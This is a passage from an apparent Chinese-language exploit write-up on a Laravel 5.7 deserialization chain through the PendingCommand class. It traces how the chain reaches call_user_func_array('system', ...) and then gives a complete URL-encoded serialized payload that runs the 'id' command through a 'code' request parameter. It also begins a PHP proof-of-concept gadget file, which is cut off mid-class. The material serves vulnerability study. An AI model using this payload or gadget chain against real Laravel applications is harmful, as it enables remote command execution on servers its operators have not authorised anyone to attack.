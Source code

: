 ![](images/15891205476083.png)


跟进BoundMethod对象的call方法。

![](images/15891205542575.png)


不满足第一个分支语句，直接进入第二行。前面的static::callBoundMethod只是判断我们的$callback是否为数组。这个不重要，我们关注后面的匿名函数。这个匿名函数直接调用call_user_func_array，并且第一个参数我们可控，参数值为system，第二个参数由static::getMethodDependencies方法返回。跟进static::getMethodDependencies方法看看。

![](images/15891205647639.png)


static::getCallReflector(`$callback`)这句用于利用反射获取`$callback`的对象，继续往下执行`static::addDependencyForCallParameter`，会对$callback的对象添加一些参数，但是这些不重要。最后一行才是关键。

最后将我们传入的`$parameters`参数数组和`$dependencies`数组合并，`$dependencies`数组为空。

最后在BoundMethod对象的call方法中我们相当于执行了以下代码:


```bash
call_user_func_array('system',array('id'))
```

此时run函数中`$exitcode`值即为命令的执行结果

![](images/15891205976779.png)


payload：



```
http://url/laravel-5.7/public/index.php/index?code=O%3A44%3A%22Illuminate%5CFoundation%5CTesting%5CPendingCommand%22%3A4%3A%7Bs%3A10%3A%22%00%2A%00command%22%3Bs%3A6%3A%22system%22%3Bs%3A13%3A%22%00%2A%00parameters%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A2%3A%22id%22%3B%7Ds%3A6%3A%22%00%2A%00app%22%3BO%3A33%3A%22Illuminate%5CFoundation%5CApplication%22%3A2%3A%7Bs%3A22%3A%22%00%2A%00hasBeenBootstrapped%22%3Bb%3A0%3Bs%3A11%3A%22%00%2A%00bindings%22%3Ba%3A1%3A%7Bs%3A35%3A%22Illuminate%5CContracts%5CConsole%5CKernel%22%3Ba%3A1%3A%7Bs%3A8%3A%22concrete%22%3Bs%3A33%3A%22Illuminate%5CFoundation%5CApplication%22%3B%7D%7D%7Ds%3A4%3A%22test%22%3BO%3A27%3A%22Illuminate%5CAuth%5CGenericUser%22%3A1%3A%7Bs%3A13%3A%22%00%2A%00attributes%22%3Ba%3A2%3A%7Bs%3A14%3A%22expectedOutput%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A1%3A%221%22%3B%7Ds%3A17%3A%22expectedQuestions%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A1%3A%221%22%3B%7D%7D%7D%7D
```

![](images/15891206179997.png)


**POC**


```php
<?php
//gadgets.php
namespace Illuminate\Foundation\Testing{
    class PendingCommand{
        protected $command;
        protected $parameters;
        protected $app;
        public $test;

        public function __construct($command, $parameters,$class,$app)
        {
            $this->command = $command;
            $this->parameters = $parameters;
            $this->test=$class;
            $this->app=$app;
        }
    }
```